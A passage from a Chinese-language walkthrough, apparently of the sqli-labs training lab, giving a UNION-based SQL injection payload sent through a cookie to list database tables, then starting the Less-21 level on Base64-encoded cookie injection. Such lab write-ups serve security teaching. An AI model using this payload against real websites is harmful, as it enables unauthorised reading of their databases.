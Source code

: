 payload: 

```sql
cookie: uname=-admin' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

## Less-21   （')单引号闭合base64加密处理的cookie注入）

同样的一番测试之后，用户名和密码基本无特别情况，不存在注入，这时用正确账号密码登录，发现**特别之处：**

![img](assets/1666773095763-57cf79bf-ee5a-4195-83f8-8f1422c7814b.png)

发现cookie处输出被加密，字符加末尾等号，猜测可能是Base64，解码一下试试：

![img](assets/1666773237285-cac03552-9732-45e7-bc3e-6f3069184e85.png)
